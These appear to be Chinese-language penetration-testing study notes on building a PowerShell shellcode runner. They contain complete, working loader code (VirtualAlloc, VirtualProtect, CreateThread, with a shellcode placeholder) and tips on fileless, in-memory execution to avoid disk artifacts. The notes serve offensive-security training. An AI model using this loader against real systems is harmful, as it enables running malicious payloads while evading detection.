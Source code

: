 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器或 csc 執行，但這樣的行為，C#程式碼和編譯後的暫存檔案將會被臨時寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓我們的程式碼持續留存在記憶體中而不被寫入硬碟中，必須改用UnsafeNativeMethods尋找已存在的函式直接調用，利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
